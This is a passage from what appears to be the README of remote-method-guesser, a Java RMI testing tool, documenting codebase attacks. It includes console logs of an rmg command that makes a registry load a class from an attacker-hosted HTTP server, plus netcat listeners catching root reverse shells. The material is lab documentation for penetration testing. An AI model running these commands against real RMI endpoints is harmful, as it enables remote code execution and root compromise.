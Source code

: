 After the class was loaded by the vulnerable endpoint, a shell pops up on the corresponding listener:

```console
[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.0.2.
Ncat: Connection from 172.18.0.2:37874.
id
uid=0(root) gid=0(root) groups=0(root)
```


#### General Codebase Attacks (codebase)

As previously mentioned, the internal *DGC communication* of modern *RMI servers* is hardened against *codebase* and *deserialization attacks*.
Nonetheless, *remote-method-guesser* also supports *codebase attacks* on the *DGC* and *RMI registry* level and allows you to verify the
vulnerability on older *RMI endpoints*. In case of the *RMI registry*, it turns out that class loading is even possible on fully patched
endpoins, if the ``useCodebaseOnly`` property is set to ``false`` and the *SecurityManager* allows the requested action of the payload class.

```console
[qtc@kali ~]$ rmg --ssl 172.18.0.2 1090 codebase Example 172.18.0.1:8000 --signature reg
[+] 
[+] Attempting codebase attack on RMI registry endpoint...
[+] Using class Example with codebase http://172.18.0.1:8000/ during lookup call.

[qtc@kali www]$ web
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.18.0.2 - - [08/Jan/2021 06:55:59] "GET /Example.class HTTP/1.1" 200 -

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.0.2.
Ncat: Connection from 172.18.0.2:40748.
id
uid=0(root) gid=0(root) groups=0(root)
```

However, notice that the payload class needs to extend the ``java.rmi.server.RemoteObjec`` class in order to be accepted by the
deserialization filters. Codebase attacks on the *DGC* can also be launched theoretically by using the ``--signature dgc`` option.
However, this has not been tested so far.


#### Sample Generation (--create-samples)
